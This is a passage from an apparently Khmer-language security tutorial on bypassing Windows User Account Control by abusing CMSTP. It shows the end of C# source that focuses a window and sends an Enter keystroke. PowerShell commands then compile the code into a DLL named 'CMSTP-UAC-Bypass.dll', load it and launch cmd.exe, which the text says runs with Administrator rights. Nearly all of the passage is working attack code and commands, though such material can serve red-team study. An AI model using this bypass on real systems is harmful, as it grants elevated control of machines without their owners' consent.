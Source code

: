         System.Windows.Forms.SendKeys.SendWait("{ENTER}");
        return true;
    }

    public static IntPtr SetWindowActive(string ProcessName)
    {
        Process[] target = Process.GetProcessesByName(ProcessName);
        if(target.Length == 0) return IntPtr.Zero;
        target[0].Refresh();
        IntPtr WindowHandle = new IntPtr();
        WindowHandle = target[0].MainWindowHandle;
        if(WindowHandle == IntPtr.Zero) return IntPtr.Zero;
        SetForegroundWindow(WindowHandle);
        ShowWindow(WindowHandle, 5);
        return WindowHandle;
    }
}
{{< / highlight >}}


<span style="color:grey">ផ្អែកលើការងារពីមុនរបស់លោក</span> [Oddvar Moe](https://oddvar.moe/2017/08/15/research-on-cmstp-exe/)
<span style="color:grey">ផ្អែកលើ PowerShell ស្គ្រីបរបស់លោក</span> [Tyler Applebaum](https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1)

ចម្លងកូដខាងលើរក្សាទុកជា <span style="color:red">"Source.cs"</span>
ដើម្បីបំប្លែងកូដទៅជាឯកសារ dll យើងអាចប្រើពាក្យបញ្ជានៅលើ powershell ដូចខាងក្រោម៖

{{< highlight powershell "linenos=table" >}}
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
{{< / highlight >}}

ក្រោយបំប្លែងរួចវានឹងបង្កើតចេញជាឯកសារមួយមានឈ្មោះថា <span style="color:red">"CMSTP-UAC-Bypass.dll"</span>

#### Bypass UAC

ដើម្បីប្រើប្រាស់ឯកសារ DLL ដែលបានបង្កើតរួចឲ្យដំណើរការ Bypass UAC យើងអាចប្រើពាក្យបញ្ជាដូចខាងក្រោម៖

{{< highlight powershell "linenos=table" >}}
PS C:\> [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))

GAC    Version        Location
---    -------        --------
False  v4.0.30319

PS C:\> [CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
{{< / highlight >}}

ក្រោយពីរដំណើររួច នឹងមានលោតផ្ទាំង CMD អមមកជាមួយនិងសិទ្ធជា Administrator ។
